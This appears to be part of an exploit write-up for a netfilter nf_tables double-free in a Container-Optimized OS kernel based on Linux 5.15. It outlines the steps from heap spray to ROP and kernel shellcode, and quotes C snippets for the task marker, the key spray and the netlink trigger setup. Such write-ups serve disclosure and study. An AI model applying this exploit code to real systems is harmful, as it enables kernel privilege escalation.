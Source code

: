 Before Linux v5.19, the Netfilter nf_tables objects are allocated into `kmalloc` caches, not the accounted `kmalloc-cg` caches. Since the `cos-105-17412.101.17` is based on Linux v5.15.109, the double-freed chunks are created into `kmalloc-1k` cache.

### 7.1 Overview
This exploit takes the following steps:
1. Preparation for post-PC control and barrier objects
3. Triggering vulnerability for overlapping chunks
4. Heap and KASLR leak
5. PC control for ROP
6. ROP for Kernel shellcode
7. Post exploitation

### 7.2 Preparation for post-PC control and barrier objects

- [exploit/extra-refined/exploit.c#L54](../exploit/extra-refined/exploit.c#L54)
```c
#define TARGET_COMM 0xdeadbeefcafebabe
```
- [exploit/extra-refined/exploit.c#L1059](../exploit/extra-refined/exploit.c#L1059)
```c
uint64_t comm[2] = {TARGET_COMM, 0};
if (prctl(PR_SET_NAME, comm, NULL, NULL, NULL) < 0)
{
	perror("prctl");
}
```
We set its own `comm` with `prctl` syscall to `TARGET_COMM`(0xdeadbeefcafebabe), which is the special magic value. This value is used for post-PC control steps to identify the exploit task. Details will be explained later.

- [exploit/extra-refined/exploit.c#L1067](../exploit/extra-refined/exploit.c#L1067)
```c
// init user_keys for freelist barrier
for (int i = 0; i < KEY_SPRAY_CNT; i++)
{
	snprintf(name_buf, sizeof(name_buf), "key_%d", i);
	if ((keys[i] = add_key("user", name_buf, buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
		perror("add_key");
}
``` 

The exploit also sprays a `struct user_key_payload` object `KEY_SPRAY_CNT` (10) times with the `add_key` syscall. These objects are used as freelist barrier, which prevents kernel crashes after percpu freelist is corrupted.

### 7.3 Triggering vulnerability and chunk overlapping

In this step, the exploit triggers the vulnerability to create double-freed chunks into `kmalloc-1k` slab and reclaims them with `struct user_key_payload` objects for further exploit steps.

- [exploit/extra-refined/exploit.c#L1075](../exploit/extra-refined/exploit.c#L1075)
```c
nl = mnl_socket_open(NETLINK_NETFILTER);
if (nl == NULL)
{
	err(1, "Cannot into mnl_socket_open()");
}

if (mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0)
{
	err(1, "Cannot into mnl_socket_bind()");
}

// setup table and chains
printf("[*] prepare table and chain...\n");
```